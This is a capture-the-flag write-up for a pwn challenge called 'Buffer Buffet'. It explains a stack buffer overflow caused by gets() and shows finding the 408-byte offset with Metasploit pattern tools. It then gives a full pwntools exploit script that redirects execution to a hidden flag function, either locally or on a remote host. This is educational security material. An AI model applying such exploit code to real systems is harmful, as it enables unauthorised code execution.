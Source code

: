 # Buffer Buffet

Writeup Author: Nguyen Nghia Hiep
## Description
```
As an elite hacker invited to an exclusive digital banquet, you must navigate through the layers of a complex software system.
Among the appetizers, main course, and dessert lies a hidden entry point that, when discovered, reveals a treasure trove of
sensitive information.

Author: @Inv1s1bl3

nc 34.125.199.248 4056
```
## Writeup
We are given the binary ./vuln, vuln is an ELF64 binary file. Running the binary, user input is asked and is returned.
```bash
$ ./vuln                                                           
Enter some text:
hello
You entered: hello
```
Here I attempted to run Ghidra to decompile the binary and look for interesting functions, this process can also be done on GDB (using the command info functions).

<img src="https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture1.png" height=650>

Here we found the main() function, and it is calling vuln() function. In vuln() we can see that the code is prompting the user for input using gets() (which is dangerous as it does not check for buffer size of user input) and is storing in local_198 which has capacity for 400 bytes.

<img src="https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture2.png" height=250>

This outlines a buffer overflow vulnerability. Here we also discover an interesting secretFunction() function which will display the flag.

<img src="https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture3.png" height=250>

<img src="https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture4.png" height=250>

If we can overflow the input buffer and inject address to secretFunction() to the rip register, we can display the flag. First, I locate the offset to the rip register. Using metasploit tools I created a pattern to put in my buffer (length of 450 bytes which is 50 bytes longer than what the input can store).
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 450
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9
```
<img src="https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture5.png" height=150>
As expected a segmentation fault is shown, viewing the registers, in particular the rip register.

<img src="https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture6.png" height=650>

rbp has been overflow with our input (convert hex value to ascii and we'll see part of our input); rip has also been overflow (it now contains our stored at rip register). Now we can locate the offset.
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 450 -q 6e41376e41366e41 
[*] Exact match at offset 408
```
The offset is located at the 408 byte. A python exploit script can be created.
```python
# Author: Nguyen Nghia Hiep

import pwn
import argparse

# Add command line arguments to our exploit script
parser = argparse.ArgumentParser()
parser.add_argument("choice", type=str, choices={"local", "remote"})
parser.add_argument("--target", "-t", type=str, required=False)
parser.add_argument("--port", "-p", type=int, default=0, required=False)

args = parser.parse_args()

elf = pwn.ELF("./vuln")

# Buffer overflow at 400 bytes

# Test offset at 408 bytes
# secretFunction() address retrieved from ELF symbol table
new_rip =  pwn.p64(elf.symbols["secretFunction"])

# After the secretFunction() is called set return address to main (just to make the program execute flawlessly).
return_main = pwn.p64(elf.symbols["main"])

payload = b"".join(
        [
            b"A" * 408,
            new_rip,
            return_main,
        ]
    )

payload += b"\n"

if args.choice == "local":
    p = elf.process()

elif args.choice == "remote":
    if not args.target or not args.port:
        pwn.warning("Supply -t <target> and -p <port>")
        exit()
    p = pwn.remote(args.target, args.port)

p.sendline(payload)
p.interactive()
```
Running the exploit script the flag can be obtained!

![alt text](https://github.com/HackerTyperAbuser/CTF_Writeups/blob/main/2024/OSCTF2024/PWN/buffer_buffet/picture7.png)

## References
1. [Buffer Overflow Made Easy - TCM Security](https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)

2. [PicoCTF2022 Buffer Overflow2 - John Hammond](https://www.youtube.com/watch?v=26mEa1Ojux8)
